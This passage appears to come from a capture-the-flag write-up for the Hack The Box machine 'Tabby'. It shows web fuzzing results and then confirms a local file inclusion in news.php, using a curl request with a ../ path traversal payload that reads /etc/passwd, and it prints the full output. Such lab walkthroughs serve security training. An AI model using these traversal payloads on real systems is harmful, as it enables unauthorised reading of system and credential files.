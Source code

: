 ```
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response status: 403
________________________________________________

index.php               [Status: 200, Size: 14175, Words: 2135, Lines: 374]
news.php                [Status: 200, Size: 0, Words: 1, Lines: 1]
.                       [Status: 200, Size: 14175, Words: 2135, Lines: 374]
:: Progress: [153068/153068] :: Job [1/1] :: 773 req/sec :: Duration: [0:03:18] :: Errors: 0 ::
```

Let's try to do something with `news.php`.

If we check the menu on the main page, we can see that `NEWS` have the following
link: http://megahosting.htb/news.php?file=statement

Let's add the local domain entries:

```
$ cat /etc/hosts| grep 194
10.10.10.194 tabby.htb
10.10.10.194 megahosting.htb
```

The link does look like LFI vulnerable.

## HTTP exploitation: LFI

Let's confirm the LFI:

```
$ curl http://megahosting.htb/news.php\?file\=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
```